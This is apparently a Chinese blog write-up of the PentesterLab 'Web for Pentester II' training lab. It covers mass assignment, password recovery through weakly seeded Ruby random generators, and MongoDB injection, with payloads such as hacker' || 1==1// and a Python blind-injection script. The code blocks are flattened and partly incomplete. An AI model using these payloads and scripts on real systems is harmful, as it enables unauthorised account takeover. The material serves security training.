可以获取与某个公司关联的所有用户，通过 `user.company` 可以获取某个用户所属的公司。这些关联关系可以方便地进行数据库查询和操作，遵循 Rails 的约定优于配置（Convention over Configuration ）原则。
但此处的当开发人员使用 ActiveRecord（Ruby-on-Rails 最常见的数据映射器）这个映射器我们从何验证呢，只需要一个小插件即可
总结：因为在一对多的结构中，即一个company对应多个user，那么在user表中会多一个company_id的外键指向company表。
这也就是说我们可以从刚才的页面添加一个compan_id的属性即可，而之前我在测试的时候添加的是company属性
如下图，我们成功读取公司一的秘密
0x07 Randomness Issues-随机性问题
官方说明：
1 2 3 根据开发人员生成随机数或字符串的方式，所创建的值或多或少都是随机的。最大的错误便是使用常量或当前时间手动设置随机生成器;这将允许攻击者能够预测已经和将要生成的值。
Example 1
附上GPT对上述代码的解释：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 这段 Ruby 代码主要涉及随机密码生成和创建用户的操作，同时使用了 MD5 哈希来存储密码。以下是对代码的详细解释：1 . **`Random.new(0)` **: 创建了一个新的伪随机数生成器对象，并使用种子值 `0` 进行初始化。这个对象将用于生成密码中的随机字符。2 . **`6.times.map {...}.join` **: 这个部分生成了一个包含 6 个随机小写字母的字符串。具体解释如下：`6.times` : 表示循环 6 次。`map {...}` : 对每次循环应用花括号中的代码块，并将结果存储在数组中。`('a'..'z').to_a` : 创建包含小写字母 'a' 到 'z' 的数组。`s.rand(('a'..'z').to_a.size)` : 生成一个介于 0 和数组大小之间的随机数。`('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]` 会随机选择数组中的一个字母。`.join` : 将数组中的元素拼接成一个字符串。3 . **`Digest::MD5.hexdigest(SEED+pass+SEED)` **: 使用 MD5 哈希算法对密码进行哈希。`Digest::MD5.hexdigest` 将生成一个 32 位的十六进制哈希值。`SEED` 是一个预定义的常量，被拼接到密码的前后，这样可以增加哈希的安全性，防止彩虹表等攻击。4 . **`User.create(...)` **: 使用 ActiveRecord 模型 `User` 的 `create` 方法创建用户。具体解释如下：`:username => 'admin'` : 指定用户名为 'admin' 。`:password => Digest::MD5.hexdigest(SEED+pass+SEED)` : 指定密码为通过 MD5 哈希处理的随机生成的密码。5 . **`pass = 6.times.map {...}.join` **: 生成另一个 6 位的随机密码，用于创建第二个用户。6 . **`User.create(...)` **: 创建第二个用户，用户名为 'hacker' ，密码同样是通过 MD5 哈希处理的随机生成的密码。'admin' ，另一个用户名为 'hacker' ，并为这两个用户生成随机密码，通过 MD5 哈希存储密码。在实际应用中，使用更强大的密码哈希算法（如 bcrypt）通常是更安全的选择。此外，硬编码的密码和种子值可能不是最佳实践，更好的方式是使用更随机和更长的密码以及真正的随机数生成器。
也就是说这里面用户的密码是随机生成的，但我们可以看到其中的随机数种子s=Random.new(0)似乎并不安全，这里以0为随机数种子，这代表着此处的s一定是定值，并且在进行md5加密时，采用了预定义常量MD5.hexdigest(SEED+pass+SEED))SEED
我们看一下官方说明：
1 2 3 第一个例子只是为了说明随机性并不是真正的随机性。问题来自于种子随机生成器的使用。开发人员使用值 0 来为随机生成器提供种子。
之后看了几个wp发现直接运行此代码即可
1 2 3 4 5 s = Random .new(0 )6 .times.map { ('a' ..'z' ).to_a[s.rand(('a' ..'z' ).to_a.size)]}.join6 .times.map { ('a' ..'z' ).to_a[s.rand(('a' ..'z' ).to_a.size)]}.join
但令我疑惑的是password => Digest::MD5.hexdigest(SEED+pass+SEED)此处的password起到了什么作用啊。难道不应该是puts password吗？于是问了GPT，这里附上解释：
1 2 3 4 5 是的，你理解得很对。在这段 Ruby 代码中，`password => Digest::MD5.hexdigest(SEED+pass+SEED)` 中的 `password` 只是用于存储密码的字段，实际存储的是通过 MD5 哈希算法处理过的密码的结果，而不是用户真正的明文密码。
那我们找一个Ruby的在线运行工具运行一下即可
如上图，多次尝试你会发现，右侧结果不会改变，那admin的密码就是第一个了，如下图success
Example 2
在这里呢与上一关相似，只不过随机数种子换为了当前时间戳。这令我头疼，我以为页面会在某处泄露一下时间的，但我找不到，那看一下官方说明吧
1 2 3 4 5 此示例显示了随机生成器播种不良的另一个示例。随机生成器以当前时间为种子。
原来如此，学到了，不过我这都2023年了，爆破估计很费事，这里先贴上大佬的脚本让他自己先去爆破吧
1 2 3 4 5 6 7 8 9 10 11 12 13 14 timestamp = (Time .now.to_f).to_iRandom .new(timestamp)6 .times.map { ('a' ..'z' ).to_a[seed.rand(('a' ..'z' ).to_a.size)]}.join6 .times.map { ('a' ..'z' ).to_a[seed.rand(('a' ..'z' ).to_a.size)]}.joinwhile pass_hacker !="efefsk" do 1 Random .new(timestamp)6 .times.map { ('a' ..'z' ).to_a[seed.rand(('a' ..'z' ).to_a.size)]}.join6 .times.map { ('a' ..'z' ).to_a[seed.rand(('a' ..'z' ).to_a.size)]}.joinend "Password de admin: "
最终也是成功爆破出来
Example 3
这里看到s恢复了以0位随机数种子，但生成密码的时候出现了6+s.rand(5)这似乎是随机增加了密码的位数，这似乎增加了爆破难度，让我们看看官方说明
1 这个例子非常简单并且与第一个例子类似。您只需重播代码即可获取 admin 密码。密码长度是随机的这一事实并不影响您可以猜测它。
尴尬，原来如此简单，如下图成功爆破
Example 4
这一关多了一条代码，我们看看GPT如何解释：
1 2 3 4 5 6 7 8 9 这段 Ruby 代码的目的是使用 `Random.new(0)` 创建一个伪随机数生成器对象，并在该对象上进行随机数的生成操作。以下是对代码的详细解释：1 . `s = Random.new(0)` : 创建一个新的伪随机数生成器对象，并使用种子值 `0` 进行初始化。这个对象将用于生成随机数序列。2 . `rand(1000).times {s.rand(5)}` :`rand(1000)` : 生成一个介于 0 和 999 之间的随机整数。`rand` 方法用于生成伪随机数，默认范围是 [0 , 1 )，通过传递参数可以指定范围。`.times {s.rand(5)}` : 针对生成的整数值执行代码块，该代码块中使用 `s.rand(5)` 生成 0 到 4 之间的随机整数，实际上并没有对这些生成的随机数进行进一步的操作。`s` ，然后生成一个介于 0 和 999 之间的随机整数，接着对该整数进行循环（`rand(1000).times` ），在每次循环中生成 0 到 4 之间的随机整数。在这里，循环的目的似乎只是为了产生一系列随机数而没有直接使用它们。
这里看的解释还是有点懵，我们看看官方如何说：
1 在此示例中，您不知道在生成密码之前使用了多少次随机生成器（因为它是对 rand(1000) 的调用，而不是 s.rand(1000) 。您仍然可以获得之前生成的密码。要获取它，您只需暴力破解该值，直到获得密码。
这里似乎就理解了，上述rand(1000).times {s.rand(5)}的作用似乎是令s = Random.new(0)执行rand(1000).times次，但这里我们并不知道在此之前s = Random.new(0)执行过几次，但我们仍然是可以进行暴力破解来获取密码的，只需要重复执行题目给我们的源码即可，让我们根据Example 2的脚本进行简单修改即可
1 2 3 4 5 6 7 8 9 10 11 12 13 14 s = Random .new(0 )1000 ).times {s.rand(5 )}6 .times.map { ('a' ..'z' ).to_a[s.rand(('a' ..'z' ).to_a.size)]}.join6 .times.map { ('a' ..'z' ).to_a[s.rand(('a' ..'z' ).to_a.size)]}.joinwhile pass_hacker != "udxpnv" do Random .new(0 )1000 ).times {s.rand(5 )}6 .times.map { ('a' ..'z' ).to_a[s.rand(('a' ..'z' ).to_a.size)]}.join6 .times.map { ('a' ..'z' ).to_a[s.rand(('a' ..'z' ).to_a.size)]}.joinend "Password de admin: "
最终也是成功爆出
成功登录
0x08 MongoDB 注入
官方说明：
1 2 3 4 5 6 7 8 9 即使 MongoDB 是 NoSQL 数据库，仍然有可能编写易受攻击的代码，因此本练习具有两个 NoSQL 注入。
Example 1
一个熟悉的登录框，这里测试了一下，发现在hacker后面添加单引号会报错，但报错出来的东西似乎也没什么信息，这里还是看了答案才知道如何做的。
但官方提示我们：了解如何生成始终 true 条件（例如 1）。那例子1就是考察万能密码绕过，或者叫nosql永真式注入，但我翻了翻笔记，发现与这一关的通关技巧还不一样，先展示一下官方手法：
1 2 3 4 5 6 7 8 这个例子是著名的 ' or 1=1 -- 的 MongoDB 版本。如果您还记得之前看到的内容，您就会知道需要做两件事才能绕过此登录：
也就是说我们将username赋值为hacker' || 1==1//或者hacker' || 1==1<!--或者hacker' || 1//
Example 2
这一关是让我们了解如何检索信息
但我也不清楚后台语句，有点蒙蔽的，看了答案发现有点难啊，这些语句都没咋见过。。。这里就跟着wp走了
在第二个也是最后一个练习中，我们必须通过操作 GET 请求来获取管理员密码。
使用以下 URL，无论密码如何，都会显示名为“admin”的用户：
1 ?search=admin' && this.password.match(/./)
现在，如果我们更改“/ /”之间的值，我们可以“猜测”密码字符，因为如果该字符在密码中，则将显示管理信息，如果不是，则不会恢复任何内容，如下所示：
1 ?search=admin' && this.password.match(/k/)
说白了这里就是根据页面回显情况，判断出需要利用盲注的手段，不过这里的正则匹配没见过。。。。真不知道这是什么语言写的，下去有时间得好好复习了
不过这里的payload似乎需要url编码一下 && 编码为%26%26
其中最后的// 类似于sql中的–-即注释作用。而%00 空字符也可以阻止后边的执行。 还可以加上正则中的 ^ $ 分别限定。 如果成功，则返回结果，如果false，则无结果返回。 脚本如下：
那毫无疑问得写脚本了，继续向佬们学习写脚本，看了看发现逻辑很简单，试着编写一下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 import requestsimport string'http://192.168.246.135/mongodb/example2/?search=admin%27%26%26this.password.match(/^{}$/)//+%00' "" while True :for c in strs:format (tmp +'.*' ))if "admin" in html.text:print ("Find a key:{}" .format (passwords))break
最终爆出密码如下：
这里附上GPT对上述正则的解释（这里不必在乎他对{}的解释）
1 2 3 4 5 6 7 8 9 10 11 12 正则表达式 `this.password.match(/^{}.*$/)` 在匹配字符串时有一些问题。首先，`{}` 是一个特殊字符，表示一个空的量词（quantifier），用于指定前面的字符或子表达式的重复次数。如果你想匹配字符串中包含的实际的 `{}` 字符，你需要对其进行转义，即写成 `\{\}`。
所以这里的.*与^和$配合，是为了保证我们从密码的第一位字符开始匹配至最后一位，而不会造成匹配密码的中间某些字符的情况出现
0x09 后言
这个练习也是收获良多，但同时让我明白了我之前的学的web基础漏洞知识仍然有所欠缺，日后会坚持刷一些web靶场，以及红队靶场，只能说感觉时间好紧张，目前的我仍然认为自己掌握的就是一坨答辩，真的很糟心。对此先不吐槽了，还是抓紧时间学习吧~~，之后再把这个靶场的第一个版本刷一下，就正式完结了。
0x10 参考文章
CTF靶场系列-Pentester Lab: Web For Pentester II
web_for_pentest_II writeup
官方解释
【技术分享】Web for Pentester II练习题解
[Pentesterlab write-up] Web For Pentester II - Randomness Issues & MongoDB injection
nosql参考：Nosql 注入从零到一 --感觉挺不错，日后有机会在好好学学